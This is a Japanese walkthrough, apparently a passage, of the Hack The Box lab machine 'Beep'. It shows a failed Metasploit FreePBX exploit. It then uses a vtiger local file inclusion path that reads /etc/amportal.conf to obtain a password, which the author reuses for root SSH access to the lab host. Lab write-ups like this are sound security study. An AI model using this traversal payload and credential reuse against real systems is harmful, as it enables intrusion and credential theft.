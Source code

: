 ```
   --  ----
   0   Automatic Target

msf5 exploit(unix/http/freepbx_callmenum) > run
(省略)
[*] Exploit completed, but no session was created.
```

が、失敗します。
（追記　記事の一番下にこの exploit を成功させている writeup があったのでリンクを貼りました。）

#Google で出てきた物を使ってみる
google で出てきた以下の Exploit より
https://www.exploit-db.com/exploits/37637

`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`にブラウザからアクセスしてみます

すると、以下のようなページにたどり着きます
![スクリーンショット 2020-03-14 16.02.10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/140ab330-fdd4-3481-db69-4e7037d776c7.png)
ソースを覗くとみやすくなるので password と検索してみると出てきます

![スクリーンショット 2020-03-14 16.02.21.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/57574b91-f394-94b0-26b0-e06585f63d0e.png)

#出てきた password が ssh の接続に使い回されているかチェック

すると

```
kali@kali:~$ ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Sat Mar 14 09:47:03 2020 from 10.10.14.3

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 
[root@beep ~]# whoami
root

```
一発で root が取れてしまいました。
root.txt と user.txt を探して終わりです

#終わりに
かなり簡単というかシンプルな machine でした。
あと少しで vip が切れてしまうので vip が切れたら一旦オススメしてもらった以下の本でも読もうかなと思っています。
[サイバーセキュリティ レッドチーム実践ガイド](https://www.amazon.co.jp/dp/4839967571/ref=cm_sw_r_tw_dp_U_x_jTFxEbRXYPHVG)
